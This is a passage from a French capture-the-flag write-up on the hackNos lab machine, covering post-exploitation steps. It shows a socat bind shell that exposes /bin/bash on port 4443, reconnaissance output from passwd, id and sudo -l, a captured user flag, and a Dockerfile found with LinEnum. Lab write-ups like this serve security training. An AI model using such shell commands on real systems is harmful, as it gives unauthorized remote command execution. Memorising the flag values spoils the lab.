 Le système ne semble pas d'humeur à nous fournir d'un reverse shell mais, comme vu dans le scan de port du début, les ports sont fermés, non filtrés donc un classique *bind* suffira. J'ai utilisé *socat* qui était sur la machine.  

Sur le serveur : 
```bash
socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash
```

En local : 
```bash
socat - TCP4:192.168.2.10:4443
```

Une fois connecté, je repère un utilisateur sur le système :  

```plain
blackdevil:x:1000:118:hackNos:/home/blackdevil:/bin/bash
```

Le flag se trouve dans le fichier *user.txt* de son home : 
```plain
bae11ce4f67af91fa58576c1da2aad4b
```

Il fait partie du groupe Docker ce qui peut être intéressant pour passer à root ensuite : 
```plain
uid=1000(blackdevil) gid=118(docker) groups=118(docker),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd)
```

Mais je ne trouve rien d'utile pour passer du user actuel *www-data* à cet utilisateur. J'ai juste une entrée sudo qui pointe vers un path improbable (ça trolle):   

```plain
$ sudo -l
Matching Defaults entries for www-data on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on hacknos:
    (www-data) NOPASSWD: /not/easy/What/are/you/looking
```

LinEnum me remonte un fichier Dockerfile sur le système qui correspond en fait à la mise en place du Gila :  

```plain
[-] Anything juicy in the Dockerfile:
-rwxr-xr-x 1 www-data www-data 639 Jul 10  2019 /var/www/html/websec/Dockerfile
```

```plain
FROM ubuntu:18.04

RUN apt-get -y update
RUN apt-get -y install apache2

ENV TZ=America/Mexico_City
ENV DEBIAN_FRONTEND=noninteractive
RUN apt-get -y install php php-json php-mysql php-mbstring php-zip php-gd
RUN a2enmod rewrite
RUN apt-get -y install wget zip unzip
RUN wget https://github.com/GilaCMS/gila/archive/master.zip
RUN unzip master.zip
RUN mv gila-master/* /var/www/html
RUN mv gila-master/.htaccess /var/www/html
RUN chmod 777 -R /var/www/html
RUN rm /var/www/html/index.html
RUN apt-get clean

```